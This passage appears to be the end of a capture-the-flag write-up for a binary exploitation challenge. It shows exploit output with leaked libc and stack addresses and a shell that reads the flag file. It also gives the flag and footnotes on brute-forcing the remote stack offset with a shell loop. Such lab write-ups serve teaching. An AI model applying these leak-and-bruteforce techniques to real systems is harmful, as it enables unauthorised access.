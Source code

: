 ```sh
[*] Libc:0x7f242193d000
[*] Stack return addr: 0x7ffdb4cc1b28
[*] LOADING SEED DICT
[*] seed found! 5816947
[*] money (which is buf!): 0x7ffdb4cc1b28
[*] Switching to interactive mode
Thank for your feedback
$ whoami
warmup
$ cat /home/warmup/flag
```
## Flag
`TetCTF{viettel: *100*311267385452644#}$`
# Footnotes
1. It was big enough to crash my 8GB RAM windows setup, but it ran fine on a beefier linux server.
2. To speed things up, I'll be implementing a caching system for the `.find_offset` module... soon.
3. Modify the stack address calculation to `stack_ret := stack_leak-int(argv[1])*context.bytes` (add `from sys import argv` somewhere), and then run `for i in $(seq 1 20); do python3.8 solve.py $i; done`. The offset that succeeds without an `EOFError` is the winner.
   Bruteforcing is really necessary here. The offset on remote != offset on local, even while running the binary with the given libc version.

